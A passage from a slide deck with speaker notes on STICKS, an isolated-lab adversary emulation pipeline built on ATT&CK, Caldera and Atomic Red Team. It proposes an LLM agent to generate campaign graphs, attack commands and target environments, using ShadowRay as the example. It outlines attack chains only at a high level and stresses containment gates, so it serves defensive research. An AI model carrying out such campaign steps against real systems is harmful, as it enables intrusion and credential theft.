<li>A <strong>bundle dashboard</strong> → becomes the input to Stage 2</li>
</ul>
</div>
</div>

<div class="two-col even" style="margin-top:.8rem;gap:1rem;align-items:start;">
<div>

<div class="caption"><strong>Input:</strong> pick a STIX base version (download from MITRE if absent).</div>
</div>
<div>

<div class="caption"><strong>Output:</strong> the bundle dashboard, counts by type, ready for Stage 2.</div>
</div>
</div>

<!--
Stage one is STIX Base Selection, and it is the foundation that everything else is resolved against.

Let us use the input-processing-output framing. The input is simple: a requested ATT&CK version, a specific bundle, for example the Enterprise version eighteen, plus the user's intent to begin a campaign run. Why does a version matter? Because ATT&CK evolves; techniques get added, renamed, restructured. Our eight human-curated campaigns were curated against one specific, known version. So before we can do anything meaningful, we have to pin down exactly which version of the knowledge base we are working with. That is the whole job of this stage.

The processing has a few steps. First, the system checks a local cache to see whether that bundle is already present. The bundle is a big file, around fifty megabytes, so we treat it as a runtime artifact, not something checked into the repository. It lives in a persistent cache in the user's profile, outside the repo tree, which keeps the repository small and clean. If the bundle is not there, the system downloads it from the official MITRE source. And here is a detail worth flagging: this download is the single point in the entire six-stage pipeline where we touch the network. Every other stage, in the curated flow, is fully offline. That matters for our security story. The download is also hardened: the version string is validated against a known-good list before we touch the disk or the network at all, which closes off any path-traversal or URL-injection tricks, and the write is atomic so a failed download never leaves a half-written, corrupt file behind. Once the bundle is present, we parse it and build a dashboard, counts of each object type, and the list of campaigns inside.

The output is two things: the STIX bundle sitting on disk in the cache, and that bundle dashboard. And notice the handoff, that output becomes the input to stage two. The dashboard is not just for the human to look at; it is the data stage two consumes to list campaigns.

The two cards at the bottom reinforce the why and the safety. On the left: this stage is first because everything downstream, which campaigns exist, which techniques they use, the DAGs, is only meaningful relative to a specific bundle version. On the right: the safety guarantees I just mentioned, the pre-validation and the atomic write with no partial file. Even in the most benign-looking stage, the containment-and-correctness mindset is already present.

The two screenshots are the actual STICKS interface for this stage, so you can see it rather than just hear it. On the left is the input side: a grid of ATT&CK base versions, where version eighteen is already downloaded and selected, and the others offer a Download button that pulls from the official MITRE source on demand. On the right is the output side, the bundle dashboard, which parses the selected base and shows what is inside: for v18 that is 52 campaigns, 835 techniques, 14 tactics, 187 intrusion sets, 696 malware entries, and over twenty thousand relationships. The banner at the bottom confirms the bundle is on disk and the dashboard is shown, so Stage 1 can be completed. That dashboard is exactly the output that becomes the input to Stage 2. With the bundle in hand, we can now pick a campaign, which is stage two.
-->

---
layout: default
---

# Stage 2: Campaign Selection

<div class="grad-rule"></div>

<div class="two-col even" style="gap:1.2rem;align-items:start;margin-top:1.6rem;">

<div>

<div class="caption"><strong>The program screen:</strong> pick a campaign from the bundle; curated cases are marked.</div>
</div>

<div class="tight">
<div class="ipo" style="grid-template-columns:1fr;gap:.5rem;">
<div class="box in">
<div class="lbl">Input</div>
<ul>
<li>The <strong>STIX bundle</strong> + dashboard from Stage 1</li>
</ul>
</div>
<div class="box pr">
<div class="lbl">Processing</div>
<ul>
<li>List the bundle's <strong>campaigns</strong>; mark which are <strong>curated</strong></li>
<li>On selection, <strong>extract the campaign's attributes</strong>: techniques, relationships, indicators, infrastructure, malware</li>
</ul>
</div>
<div class="box out">
<div class="lbl">Output</div>
<ul>
<li>The <strong>campaign attributes</strong> + techniques → Stage 3 (DAG)</li>
</ul>
</div>
</div>

<div class="card flat edge-purple" style="padding:.6rem .8rem;">
<h3>The 8 human-curated campaigns</h3>
<div>
<span class="pill">APT41, DUST</span><span class="pill">ATT&amp;CK C0010</span><span class="pill">ATT&amp;CK C0026</span><span class="pill">CostaRicto</span><span class="pill">Op. MidnightEclipse</span><span class="pill">Op. Outer Space</span><span class="pill">Salesforce Exfil</span><span class="pill">ShadowRay</span>
</div>
<p style="margin-top:.4rem;">The <strong>ground truth</strong> for comparing human vs. future AI curation.</p>
</div>
</div>

</div>

<!--
Stage two is Campaign Selection. Having fixed the knowledge-base version, we now pick the specific campaign we want to reproduce.

The input is exactly the output of stage one: the STIX bundle on disk plus its dashboard. That is the sequential-gating contract in action, stage two literally cannot start until stage one handed over a valid bundle.

The processing has two parts. First, the system lists the campaigns contained in the bundle, and it marks which of those are curated, meaning one of our eight hand-curated cases is available for it. Then, when the researcher selects a campaign, the system extracts that campaign's attributes from the STIX data. This is real structural modeling: it pulls out the techniques the campaign used, the relationships between objects, the indicators of compromise, the infrastructure, the malware, and the campaign metadata. On the curated path this is defensive and fully offline, we are reading structured data we already have, not calling out anywhere. To give you a sense of scale, for the ShadowRay campaign this extraction yields on the order of ten techniques, nine relationships, fourteen indicators, and a couple each of infrastructure and malware objects.

The output is the set of campaign attributes together with the associated techniques, and once again that output feeds directly into the next stage, stage three, the DAG. At this point we know the "what" of the campaign in rich detail: which techniques, what infrastructure, which indicators. What we still do not have is the order and the executable form, that comes next.

The card at the bottom lists the eight human-curated campaigns, and I want you to register these names because they are central to the research. APT41 DUST, two ATT&CK campaigns C-zero-zero-one-zero and C-zero-zero-two-six, CostaRicto, Operation MidnightEclipse, Operation Outer Space, Salesforce Data Exfiltration, and ShadowRay. These eight were curated by hand by my colleagues. They are the ground truth of the project. When I eventually evaluate the AI agent, these human-curated versions are what I will compare against, the agent's generated curation versus the human's, measured on the same pipeline. So this stage is not only a step in the flow; it is also where our evaluation benchmark is anchored.
-->

---
layout: default
---

# Stage 3: DAG Generation

<div class="grad-rule"></div>

<div class="two-col even" style="gap:1.2rem;align-items:start;margin-top:1.6rem;">

<div>

<div class="caption"><strong>The program screen:</strong> the campaign DAG.</div>
</div>

<div class="tight">
<div class="ipo" style="grid-template-columns:1fr;gap:.5rem;">
<div class="box in">
<div class="lbl">Input</div>
<ul>
<li>The <strong>campaign attributes</strong> + techniques (Stage 2)</li>
</ul>
</div>
<div class="box pr">
<div class="lbl">Processing</div>
<ul>
<li>Build the <strong>directed acyclic graph</strong>; encode <strong>ordering</strong> &amp; <strong>dependencies</strong></li>
<li>Curated path: read <code>{slug}_dag.json</code>, <strong>no AI, no network</strong></li>
<li>Carries an <code>origin</code> (<code>human_curation</code> | <code>ai_generated</code>)</li>
</ul>
</div>
<div class="box out">
<div class="lbl">Output</div>
<ul>
<li>The <strong>campaign DAG</strong> (nodes + edges) → Stage 4</li>
</ul>
</div>
</div>

<div class="card flat edge-red" style="padding:.6rem .8rem;"><p><strong>Why the DAG comes before commands:</strong> it defines the campaign's <em>chaining</em>. Atomic Red Team gives a command <em>per technique</em>, but <strong>order &amp; dependencies</strong> come from here.</p></div>
<div class="card flat edge-purple" style="padding:.6rem .8rem;"><p><strong>Extension point:</strong> a future <code>AiDagGenerator</code> plugs into the same seam, emitting <code>origin = ai_generated</code>, no schema change.</p></div>
</div>

</div>

<!--
Stage three is DAG Generation, and this is the first of the three stages that a human curates today and that my AI agent will eventually take over, so pay close attention here.

The input is the campaign attributes and techniques from stage two. We know which techniques the campaign used. The processing turns that flat set of techniques into a structure: a directed acyclic graph, a DAG. In that graph each node is a technique or step, and the edges encode two things, the order in which steps must run, and the dependencies between them. "Directed" means the edges have a direction, step A then step B. "Acyclic" means there are no loops; the campaign flows forward. This is the stage that answers the question Atomic Red Team could not: not just which techniques, but in what sequence and with what prerequisites.

On the curated path, the processing is deliberately trivial: the curated graph already exists, so the system just reads a DAG JSON file for that campaign from disk, with no AI and no network involved. But, and this is the important architectural detail, the DAG it produces always carries an explicit origin field. Today that value is "human curation." The field also admits the value "AI generated." Nothing else in the data model has to change for an AI-produced DAG to be a first-class citizen.

The output is the campaign DAG itself, nodes and edges, which we can even render visually as a Mermaid diagram on the screen, and that DAG becomes the input to stage four.

The two cards explain the two things people most often ask here. On the left: why does the DAG come before the commands? Because the DAG is where the campaign's chaining lives. Remember, Atomic Red Team hands you a command per technique in isolation. It is the DAG that says "do reconnaissance, then exploit, then move laterally, then exfiltrate," and that step four depends on step two having succeeded. The command catalog does not know about campaign-level ordering; the DAG does. So logically, you establish the structure first, and only then fill in the concrete commands, which is stage four.

On the right: the extension point. Because the DAG generator is a clean seam with an origin attribute, a future AI DAG generator slots in right here. It would take the campaign attributes and emit a DAG with origin equal to AI-generated, using the same interface and the same stored structure. This is the first of the three places my agent plugs in, and you can already see how the architecture was prepared for it.
-->

---
layout: default
---

# Stage 4: Operationalization

<div class="grad-rule"></div>

<div class="two-col even" style="gap:1.2rem;align-items:start;margin-top:1.6rem;">

<div>

<div class="caption"><strong>The program screen:</strong> ordered Abilities + Adversary and the derived environment parameters.</div>
</div>

<div class="tight">
<div class="ipo" style="grid-template-columns:1fr;gap:.5rem;">
<div class="box in">
<div class="lbl">Input</div>
<ul>
<li>The <strong>campaign DAG</strong> (Stage 3)</li>
</ul>
</div>
<div class="box pr">
<div class="lbl">Processing</div>
<ul>
<li>Assemble <strong>executable Abilities</strong> in <strong>DAG order</strong> + the Adversary profile</li>
<li><strong>Derive environment parameters</strong>: target hosts, addresses, services, vulnerabilities, network context</li>
</ul>
</div>
<div class="box out">
<div class="lbl">Output, two typed artifacts</div>
<ul>
<li><strong>Ordered Abilities</strong> + Adversary</li>
<li><strong>Environment parameters</strong> → drive Stage 5</li>
</ul>
</div>
</div>

<div class="card flat edge-purple" style="padding:.6rem .8rem;"><p><strong>This is the command-semantics gap.</strong> Selecting the right command per technique, parametrizing &amp; sequencing it, today curated by hand from Atomic Red Team.</p></div>
<div class="card flat edge-blue" style="padding:.6rem .8rem;"><p><strong>The command dictates the environment.</strong> A technique's <code>dependencies</code>, <code>input_arguments</code> and <code>supported_platforms</code> <em>are</em> the parameters Stage 5 consumes.</p></div>
</div>

</div>

<!--
Stage four is Operationalization, and this is the beating heart of the command-semantics half of my work. If stage three gave us the skeleton, the order and dependencies, stage four puts the flesh on it: the actual runnable commands.

The input is the campaign DAG from stage three. The processing produces two distinct things, and I want to be precise that they are two separate, typed artifacts, because they feed two different places.

The first artifact is the set of executable Abilities. For each node in the DAG, we assemble a concrete Ability, the actual command, tied to an executor, and we arrange them in DAG order. We also produce the Adversary profile, which is Caldera's bundling of those ordered Abilities. This is the stage where "Technique: credential dumping" finally becomes "run this exact command with these exact arguments."

The second artifact is the environment parameters. This is subtle and important. As we look at each DAG node, we read fields that are embedded in the curated data, things like the attacker commands, the target vulnerable hosts, the source and target host types, and the network context. From those we derive a structured description of what the environment must provide: which target hosts exist, their addresses, which container each maps to, what services and vulnerabilities they need, and notes about the network. So stage four does not only produce commands; it produces a specification of the battlefield those commands require.

The two cards crystallize why this stage matters. On the left: this is the command-semantics gap in its purest form. Selecting the right command for each technique, parametrizing it for the specific target, and sequencing it correctly, that is exactly the expert, manual work. Today a human does it, drawing on sources like Atomic Red Team. This is the single biggest chunk of what my AI agent will automate.

On the right is the insight that ties stage four to stage five, and back to the Atomic Red Team slide. The command dictates the environment. Remember those three fields I asked you to hold onto, dependencies, input arguments, and supported platforms? Those fields are, almost literally, the environment parameters. A command's dependencies tell you what must be installed; its input arguments tell you which targets it hits; its supported platforms tell you what kind of host it needs. So the act of operationalizing the commands naturally produces the requirements for the environment. That is why operationalization comes before provisioning: you cannot build the right environment until you know what the commands demand of it. And that neatly sets up stage five.
-->

---
layout: default
---

# Stage 5: Environment Provisioning

<div class="grad-rule"></div>

<div class="two-col even" style="gap:1.2rem;align-items:start;margin-top:1.6rem;">

<div>

<div class="caption"><strong>The program screen:</strong> provisioned isolated targets with Abilities loaded; isolation gate passed.</div>
</div>

<div class="tight">
<div class="ipo" style="grid-template-columns:1fr;gap:.5rem;">
<div class="box in">
<div class="lbl">Input</div>
<ul>
<li>The <strong>environment parameters</strong> + <strong>ordered Abilities</strong> (Stage 4)</li>
</ul>
</div>
<div class="box pr">
<div class="lbl">Processing</div>
<ul>
<li><strong>Provision</strong> targets (online build → re-isolate → verify egress gone)</li>
<li><strong>Load Abilities</strong> into Caldera in DAG order</li>
<li><strong>Isolation gate</strong>, read-only, fail-closed verification</li>
</ul>
</div>
<div class="box out">
<div class="lbl">Output</div>
<ul>
<li>A <strong>ready, isolated environment</strong> with Abilities loaded → unlocks Stage 6</li>
</ul>
</div>
</div>

<div class="card flat edge-red" style="padding:.6rem .8rem;"><p><strong>Isolation is the completion condition.</strong> If any target is not isolated, Stage 5 does <em>not</em> complete and Stage 6 stays locked. Empty list or dead daemon → fail.</p></div>
<div class="card flat edge-purple" style="padding:.6rem .8rem;"><p><strong>The environment-emulation gap.</strong> Building the right target environment is the second thing the AI agent automates, via the same <code>origin</code> seam.</p></div>
</div>

</div>

<!--
Stage five is Environment Provisioning, and it is the environment-emulation half of my agent's job, the second of the three stages the agent will take over.

The input is the two artifacts stage four produced: the environment parameters, which specify what the battlefield must look like, and the ordered Abilities plus Adversary, which are what will actually run on it.

The processing is where the provisioning discipline from the building-blocks section comes to life. First we provision the target containers, and we do it with the two-sub-phase dance I described earlier: bring them up with a controlled online build window to install prerequisites, then re-isolate them and positively verify that internet egress is gone. Second, we load the Abilities into Caldera, in the DAG order, so the engine knows the campaign and its sequence. Third, and this is the gate, we run a read-only isolation check on every target container.

That isolation gate, on the bottom-left card, is the completion condition for the stage, and this is a deliberate and strong design choice. Stage five does not count as complete until every target container is verified isolated. If any container is not isolated, the stage does not complete, the offending container is reported, and stage six, the actual execution, stays locked. The check is fail-closed: if the container list is empty, or the Docker daemon is unreachable, or the result is in any way inconclusive, it fails rather than optimistically passing. In other words, we would rather refuse to run than risk running against something that might not be contained. This is the structural guarantee that an attack can never execute outside a verified-isolated environment.

The output is a ready, isolated environment with the Abilities loaded and the isolation confirmed, and that unlocks stage six.

The bottom-right card names the research significance. Designing and building the right target environment for a given campaign, figuring out which hosts, which services, which vulnerabilities, wired into which networks, is genuinely hard expert work, and it is the second major thing my AI agent automates. And it plugs in through the very same origin seam as the DAG and the operationalization: today a human-curation provisioner uses the existing lab compose file; tomorrow an AI provisioner, with origin AI-generated, could design a bespoke environment. Same interface, no redesign. So across stages three, four, and five you have now seen all three places the agent will take over, the structure, the commands, and the environment. Stage six is where we find out whether all of that actually works.
-->

---
layout: default
---

# Stage 6: Execution, Measurement &amp; Report

<div class="grad-rule"></div>

<div class="two-col even" style="gap:1.2rem;align-items:start;margin-top:1.6rem;">

<div>

<div class="caption"><strong>The program screen:</strong> the consolidated report, success rate, per-technique telemetry and verdict.</div>
</div>

<div class="tight">
<div class="ipo" style="grid-template-columns:1fr;gap:.5rem;">
<div class="box in">
<div class="lbl">Input</div>
<ul>
<li>The <strong>isolated environment</strong> + loaded Abilities (Stage 5)</li>
</ul>
</div>
<div class="box pr">
<div class="lbl">Processing, 4 gates, then run</div>
<ul>
<li>① confirm · ② <strong>containment</strong> · ③ <strong>isolation</strong> · ④ Caldera up</li>
<li>Run in DAG order; track live over WebSocket; <strong>1:1 audit</strong></li>
<li><strong>Measure</strong> procedural sufficiency; then <strong>deprovision</strong></li>
</ul>
</div>
<div class="box out">
<div class="lbl">Output</div>
<ul>
<li>Consolidated <strong>report</strong>: success rate, telemetry, failed nodes, <strong>verdict</strong> — then torn down</li>
</ul>
</div>
</div>

<div class="card flat edge-blue" style="padding:.6rem .8rem;"><p><strong>Procedural sufficiency</strong> = did the curated procedure reproduce the campaign? Success rate over the DAG, per-technique telemetry, failed nodes, overall verdict.</p></div>
<div class="card flat edge-red" style="padding:.6rem .8rem;"><p><strong>Always tears down.</strong> After measuring, the environment is deprovisioned. This is the measurable signal the AI agent will optimize against.</p></div>
</div>

</div>

<!--
Stage six is Execution, Measurement, and Report, the payoff stage, where the whole pipeline either proves itself or shows us exactly where it falls short.

The input is the isolated, verified environment with the Abilities loaded from stage five. The processing is the most safety-critical in the system, so it is built as a series of gates that must all pass before a single command runs. Gate one: explicit human confirmation, the researcher sees the exact commands and their targets in a preview and must confirm. Gate two: containment, every command's target is parsed and validated, and if any points outside the internal subnets the entire run is refused. Gate three: isolation, the read-only check that the targets are still isolated. Gate four: Caldera must be up and healthy. Only when all four gates pass does execution begin.

Then the campaign runs, in DAG order, through Caldera. Progress is tracked live and streamed to the interface over a WebSocket, so you watch each technique execute in real time. Every executed command writes exactly one audit record, that one-to-one trail again. When execution finishes, the system measures procedural sufficiency, and then, importantly, it deprovisions, tearing the environment down.

The bottom-left card defines the central metric, procedural sufficiency, and this is the scientific core of the whole platform. The question it answers is: did the curated procedure actually succeed in reproducing the campaign? It is computed as a success rate over the DAG, how many of the campaign's techniques executed successfully, together with per-technique status and telemetry, a list of which nodes failed, and an overall verdict. This is how we turn the abstract notion of "the procedural gap" into a hard number. A high sufficiency means the curation captured enough of the real procedure to reproduce the behavior; a low one, or specific failed nodes, tells us precisely where the procedural knowledge was missing.

The bottom-right card notes two things. First, the stage always tears down the environment after measuring, and if any resource cannot be removed it is reported rather than silently left running, clean state is part of safety. Second, and this is the hook into the next section: that verdict, that success rate, is the measurable signal my AI agent will optimize against. When the agent generates a curation and it only reaches, say, seventy percent sufficiency, the agent can read which nodes failed and why, and iterate. So stage six is not just the end of the pipeline; it is the feedback source that makes an automated, self-improving agent possible. And that is the perfect moment to turn to my proposal.
-->

---
layout: default
class: section-divider
---

<div class="section" style="position:absolute;inset:0;"></div>

<div class="absolute top-8 left-14">
  
</div>

<div class="absolute left-14 right-14" style="top:40%;">
  <div class="kicker">Section 03</div>
  <h1 style="font-size:3rem;">The Gap &amp; <span class="grad-text">My Proposal</span></h1>
  <div class="grad-rule" style="width:140px;height:6px;"></div>
  <div style="font-size:1.1rem;color:var(--ink-soft);max-width:48rem;">
    From manual curation to an AI agent that generates the procedure <em>and</em> the environment
  </div>
</div>

<!--
This is section three, and it is the reason we are all here tonight: the gap, and my proposal to close it with an AI agent.

Everything up to now has been setup. You understand what ATT&CK gives us and what it withholds. You understand the lab and the containment rules. You understand Atomic Red Team as a catalog of per-technique commands. And you have walked the full six-stage pipeline, stage by stage, with its clean input-processing-output contract. Most importantly, you have seen that stages three, four, and five share a common "origin" extension point that today reads "human curation."

In this section I am going to do three things. First, I will state my proposal: an AI agent that fills, automatically, the manual gap you already saw, the stages three, four, and five that a human curates by hand today. Second, I will show you the architecture of the agentic environment that drives the whole pipeline. And third, I will break down each component of the agent so you can see how the pieces map onto the stages you already know.

This is where my individual contribution lives, as distinct from the foundation my colleagues and I built together. So let us start by being honest and specific about exactly how much human effort the current approach demands.
-->

---
layout: default
---

# Proposal, an AI agent-centric approach

<div class="grad-rule"></div>

<div class="two-col even" style="gap:1.2rem;align-items:start;margin-top:1.6rem;">

<div class="tight">

<div class="card flat edge-grad" style="padding:.55rem .8rem;">
<h3>The idea</h3>
<p>Swap the <strong>human-curation</strong> of stages 3–5 for <strong>AI generation</strong>, via the existing <code>origin</code> seam: <code>human_curation</code> → <code>ai_generated</code>.</p>
</div>

<div class="card flat edge-blue" style="padding:.55rem .8rem;">
<h3>What the agent produces</h3>
<ul>
<li><strong>Stage 3:</strong> the DAG (structure)</li>
<li><strong>Stage 4:</strong> parametrized commands (command semantics)</li>
<li><strong>Stage 5:</strong> the target environment (emulation)</li>
</ul>
</div>

<div class="card flat edge-red" style="padding:.55rem .8rem;"><p><strong>No pipeline redesign:</strong> stages 1, 2, 6 unchanged; the agent slots behind the same seams and <strong>safety gates stay as they are</strong>.</p></div>

<div class="card flat edge-purple" style="padding:.55rem .8rem;"><p><strong>Evaluation payoff:</strong> run on the same 8 campaigns, measure procedural sufficiency (Stage 6), a quantitative <strong>AI-vs-human</strong> comparison.</p></div>

</div>

<div>

</div>

</div>

<!--
Here is the proposal, stated as plainly as I can.

The idea, in the top-left card, is this: replace the human-curation implementation of stages three, four, and five with an AI-generated implementation. And the beautiful part, the part that makes this feasible rather than a rewrite, is that the pipeline already exposes the exact seam for it. Every one of those three stages carries an origin attribute. Today it reads "human curation." My agent provides the "AI generated" implementation behind the same interfaces. In code terms, it is flipping origin from human_curation to ai_generated and supplying the generator that produces the artifacts.

What does the agent actually produce? The middle card lists it, and it maps one-to-one onto the three faces of the gap we just discussed. At stage three, the agent produces the campaign DAG, the structure, the order and dependencies. At stage four, it produces the executable, parametrized commands, this is the command-semantics half. And at stage five, it produces the target environment design, this is the environment-emulation half. So the agent closes both faces of the gap, plus the structural reasoning on top. That is the complete scope of my contribution.

The bottom-left card makes an important promise: no pipeline redesign. Stages one, two, and six do not change at all. Stage one still selects and downloads the bundle; stage two still extracts campaign attributes; stage six still executes, measures, and tears down, and critically, all of its safety gates stay exactly as they are. The AI agent is not trusted to bypass containment. Everything it generates still passes through the same preview, the same confirmation, the same containment and isolation gates, the same audit. The agent proposes; the safety machinery disposes. That separation is deliberate: we get automation without weakening a single security guarantee.

On the right you see the whole thing at a glance: the architecture of the agentic environment that drives the pipeline. I am showing it now, up front, so you have the complete picture in your head, knowledge sources on the left, the orchestrated agent with its per-stage sub-agents in the center, execution and evaluation on the right, and the feedback loop from stage six curving back. Do not worry about the detail yet; the very next slide zooms into it piece by piece.

The last card on the left is the scientific payoff, which is really why this is a research project and not just an engineering convenience. Because stage six gives us a quantitative measure of procedural sufficiency, we can run the agent on the very same eight campaigns that humans curated, and directly compare the numbers. Does AI-generated curation reach the same success rate as expert human curation? Where does it fall short, and on which kinds of techniques? That head-to-head, AI-versus-human, measured on an identical pipeline, is the result the research is after. Now let me walk through that architecture in detail.
-->

---
layout: default
---

# Orchestrator / planner (LLM)

<div class="grad-rule"></div>

<div class="two-col">
<div class="tight">

<div class="card edge-grad">
<h3>What it is</h3>
<p>The <strong>LLM-driven brain</strong> of the agent. It does not generate artifacts itself, it <strong>plans the work and delegates</strong> each stage to the right sub-agent, respecting the pipeline's <strong>Input → Processing → Output</strong> contract.</p>
</div>

<div class="card edge-blue">
<h3>How it works, per campaign</h3>
<ul>
<li><strong>Plan:</strong> read the goal + current stage state from memory, decide the next step.</li>
<li><strong>Retrieve:</strong> pull grounding context via RAG (CTI, ART, past runs).</li>
<li><strong>Route:</strong> hand off to the DAG / operationalization / environment / measure sub-agent.</li>
<li><strong>Call tools:</strong> only through the deterministic tool layer, never free-form.</li>
<li><strong>Loop:</strong> consume Stage 6's verdict and re-plan until sufficiency stops improving.</li>
</ul>
</div>

</div>

<div class="tight">
<div class="card edge-red">
<h3>Why a planner at all</h3>
<p>The four stages are <strong>interdependent</strong>: a command (St.4) constrains the environment (St.5); a failure (St.6) may point back to the DAG (St.3). A central planner lets the agent <strong>reason across stages</strong>, yet it has <strong>no privileged access</strong>, every action flows through the same tools and safety gates as human curation.</p>
</div>

<div class="card edge-purple">
<h3>Candidate LLMs &amp; wiring in STICKS</h3>
<ul>
<li>GLM-5.3-Flash</li>
<li>Qwen-35B</li>
<li>Qwen3.8-Flash-Next</li>
</ul>
<p style="margin-top:.35rem;">Behind one <code>LlmClient</code> port, pick via <code>.env</code> (<code>LLM_PROVIDER</code>, <code>LLM_MODEL</code>, <code>LLM_API_KEY</code>). <strong>Swapping models is config, not code.</strong></p>
</div>
</div>

</div>

<!--
This is the first of five component slides, the orchestrator or planner, which is the brain of the whole agent.

The key thing to understand, top-left, is that the orchestrator does not itself write the DAG or the commands. It is an LLM-driven planner: its job is to decide what to do next and delegate the actual work to the right specialized sub-agent, always respecting the same Input-Processing-Output contract the pipeline defines for every stage.

How does it work in practice, for a single campaign? Follow the loop on the left. First it plans: it reads the overall goal and the current stage state from the agent's memory, and decides the next step. Then it retrieves: through RAG it pulls the grounding context it needs, the threat intelligence, the Atomic Red Team entries, lessons from past runs. Then it routes: it hands the task to the appropriate sub-agent, DAG, operationalization, environment, or measurement. Crucially, when any actual action has to happen, it goes through the deterministic tool layer, the planner never free-forms a command into the system. And finally it loops: it consumes the verdict from stage six and re-plans, iterating until procedural sufficiency stops improving.

On the right, why have a central planner at all, why not four independent generators? Because the stages are deeply interdependent. The command you choose in stage four constrains what the environment in stage five must provide. A failure in stage six might actually be a stage-three structural problem, not a stage-four command problem. A central planner is exactly what lets the agent reason across those stage boundaries, rather than treating each stage as an isolated, context-free call.

The second card on the right answers the obvious practical question, which model do I actually use? The orchestrator is model-agnostic, and for this work I have access to three at my institution: GLM-5.3-Flash, Qwen-35B, and Qwen3.8-Flash-Next. In STICKS the wiring is deliberately simple: everything sits behind a single LlmClient port, and you select the provider and model through environment variables, LLM_PROVIDER, LLM_MODEL, and an API key. Swapping models is a config change, not a code change, which also means we can run the same evaluation across the three models and compare them directly.

And the boundary card at the bottom restates the safety stance at the level of the planner specifically: the planner proposes and orchestrates, but it has no privileged access of its own. Every concrete action it triggers still flows through the same deterministic tools and the same safety gates that human curation uses. The intelligence is centralized; the authority is not.
-->

---
layout: default
---

# DAG agent (Stage 3)

<div class="grad-rule"></div>

<div class="two-col">
<div class="tight">

<div class="card edge-purple">
<h3>Job</h3>
<p>Turn a <strong>flat set of techniques</strong> into a <strong>directed acyclic graph</strong>, the campaign's ordering and dependencies, the structure Atomic Red Team does not carry.</p>
</div>

<div class="card edge-blue">
<h3>How it works</h3>
<ul>
<li><strong>Input:</strong> campaign attributes + techniques (from Stage 2).</li>
<li><strong>Retrieve:</strong> for each technique, its tactic/kill-chain phase and typical prerequisites (STIX/ATT&amp;CK + RAG over past DAGs).</li>
<li><strong>Reason:</strong> infer a plausible <strong>order</strong> (recon → exploit → lateral → exfil) and the <strong>edges</strong> (which step depends on which).</li>
<li><strong>Validate:</strong> enforce acyclicity and that every technique appears exactly once.</li>
</ul>
</div>

</div>

<div class="tight">
<div class="card edge-red">
<h3>Output</h3>
<p>A campaign DAG (nodes + edges) tagged <code>origin = ai_generated</code>, dropped in behind the existing <code>DagGenerator</code> seam, <strong>structurally indistinguishable</strong> from a human-made DAG downstream.</p>
</div>

<div class="card flat edge-purple" style="padding:.6rem .8rem;"><p><strong>Why it is real reasoning:</strong> the CTI rarely states the order explicitly. A human infers it from how the APT operated; now the agent must infer the same, and we can grade it against the 8 human DAGs.</p></div>
</div>

</div>

<!--
Component two is the DAG agent, which owns stage three, the structural reasoning.

Its job, top-left, is to take a flat, unordered set of techniques, the techniques stage two extracted, and turn them into a directed acyclic graph that encodes the campaign's ordering and its dependencies. This is precisely the structure that Atomic Red Team does not give you; ART hands you a command per technique in isolation, with no notion of campaign-level sequence.

How does it work? Walk down the left card. The input is the campaign attributes and techniques from stage two. Then it retrieves: for each technique it looks up its tactic, its kill-chain phase, and its typical prerequisites, using the STIX and ATT&CK reader plus RAG over the DAGs it has seen before. Then the core move, reasoning: it infers a plausible order, roughly reconnaissance, then exploitation, then lateral movement, then exfiltration, and, just as important, it infers the edges, which concrete step depends on which other step. Finally it validates its own output: the graph must be acyclic, and every technique must appear exactly once, no orphans, no duplicates.

The output, top-right, is a campaign DAG, nodes and edges, tagged origin equals AI-generated, and it drops in behind the existing DAG-generator seam. Downstream, nothing can tell structurally whether a human or the agent produced it, which is exactly what makes the swap clean.

And the bottom card is the point I most want you to take away about this component: this is genuine reasoning, not lookup. The raw threat intelligence almost never states the execution order explicitly. A human analyst infers it from understanding how the APT actually operated. The agent has to infer the same thing, and because we have eight human-curated DAGs, we can grade the agent's structure against the human's, technique by technique.
-->

---
layout: default
---

# DAG agent — candidate graphs for ShadowRay

<div class="grad-rule"></div>

<div style="font-size:.8rem;color:var(--ink-soft);margin-bottom:.5rem;">Same 10 ShadowRay techniques, three structures the agent might propose, each scored against the human DAG by Stage 6.</div>

<div class="cards c3" style="gap:.8rem;align-items:start;">

<div class="card edge-purple" style="padding:.5rem .6rem;">
<h3 style="margin:0 0 .2rem;">A · Linear kill-chain</h3>



<p style="font-size:.72rem;margin:.3rem 0 0;">Straight chain: access → evade → steal → escalate → impact.</p>
</div>

<div class="card edge-blue" style="padding:.5rem .6rem;">
<h3 style="margin:0 0 .2rem;">B · Branch after access</h3>



<p style="font-size:.72rem;margin:.3rem 0 0;">Credential path and tooling path run in parallel, rejoin at priv-esc.</p>
</div>

<div class="card edge-red" style="padding:.5rem .6rem;">
<h3 style="margin:0 0 .2rem;">C · Discovery-first</h3>



<p style="font-size:.72rem;margin:.3rem 0 0;">Recon fans out into execution and credential access before impact.</p>
</div>

</div>

<div class="card flat edge-grad" style="margin-top:.7rem;padding:.5rem .8rem;"><p style="font-size:.8rem;"><strong>The agent proposes structures; Stage 6 picks the winner.</strong> Each candidate is a hypothesis about ordering &amp; dependencies, rendered as the same Mermaid DAG the pipeline already shows, and measured against procedural sufficiency.</p></div>

<!--
This slide makes the DAG agent concrete. Instead of talking about structure in the abstract, here are three different DAGs the agent might actually generate for ShadowRay, using the real techniques from that campaign, the ones you saw executed in the lab.

They all contain the same campaign techniques; what differs is the structure, the agent's hypothesis about order and dependencies. Read them left to right.

Candidate A is the simplest: a straight linear kill-chain. Exploit the public-facing Ray service, encode the payload to evade detection, dump credentials, escalate privileges, and finally hijack compute to mine, that last step is the actual ShadowRay objective, cryptomining. It is clean and plausible, but it assumes everything happens in one strict line.

Candidate B is more sophisticated: it branches right after initial access. One branch handles the credential path, encode then dump credentials; a parallel branch handles tooling, acquire the tool then transfer it in. Both branches have to complete before privilege escalation, and then mining. This reflects a realistic insight: fetching your tooling and stealing credentials are independent activities that can overlap.

Candidate C leads with discovery: after the exploit, the agent does network configuration discovery first, and from that recon it fans out into two things, running Python for execution and dumping credentials, before converging on privilege escalation and impact. This is the hypothesis that an attacker orients before committing.

The point of showing three is the bottom card: the agent does not have to be right on the first try. Each of these is a hypothesis about the campaign's structure, and because every one renders as the same kind of Mermaid DAG the pipeline already displays, and because stage six can measure the procedural sufficiency of each, the system can actually tell which structure reproduces ShadowRay best. The agent proposes; the measurement decides. That is the DAG agent and the feedback loop working together.
-->

---
layout: default
---

# Operationalization agent (Stage 4)

<div class="grad-rule"></div>

